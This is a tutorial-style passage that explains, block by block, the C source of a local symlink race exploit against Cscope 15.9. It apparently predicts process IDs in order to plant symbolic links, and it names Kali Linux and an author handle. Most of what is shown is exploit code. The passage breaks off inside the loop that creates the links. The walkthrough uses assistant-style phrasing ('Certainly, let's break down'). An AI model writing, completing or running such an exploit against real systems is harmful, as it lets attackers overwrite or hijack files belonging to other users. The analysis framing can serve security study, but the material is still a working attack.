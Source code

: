 ### Set Up the Environment

1. Ensure you have a secure playground for analysis. Consider using isolated systems or containers within Kali Linux.

2. Install the C compiler (gcc) if not already present:

```bash
sudo apt install build-essential
```
## Understanding the Exploit
Certainly, let's break down the Cscope 15.9 Symlink (Symbolic Link) Exploit step by step:

### 1. **Header Files and Definitions:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

#define BSIZE 64
```
These lines include necessary header files for standard input/output, standard library functions, process identifiers, and symbolic link creation. The `BSIZE` macro defines the buffer size used in the exploit.

### 2. **Struct Definition:**
```c
typedef struct {
    char target[BSIZE];
    int max_file_creation;
} CscopeExploit;
```
A structure named `CscopeExploit` is defined to hold the target and maximum file creation parameters.

### 3. **Initialization Function (`initExploit`):**
```c
void initExploit(CscopeExploit *exploit, char *target, int max_file_creation) {
    snprintf(exploit->target, sizeof(exploit->target), "%s", target);
    exploit->max_file_creation = max_file_creation;
}
```
This function initializes an instance of the `CscopeExploit` structure by copying the target and setting the maximum file creation.

### 4. **Exploit Execution Function (`runExploit`):**
```c
void runExploit(const CscopeExploit *exploit) {
    pid_t cur = getpid();
    pid_t lst = cur + exploit->max_file_creation;
    u_int i = 0;

    // Header information
    printf("\n --[ Cscope 15.9 Symlink (Symbolic Link) Exploit ]--\n"
           " Tested OS: Kali Linux 2024.1 / Ubuntu 22.04 \n"
           " By: 0xOffensiveHex\n"
           " \n\n");

    printf(" -> Current process id is ..... [%5d]\n"
           " -> Last process id is ........ [%5d]\n", cur, lst);

    // Loop to create symbolic links
    while (++cur != lst) {
```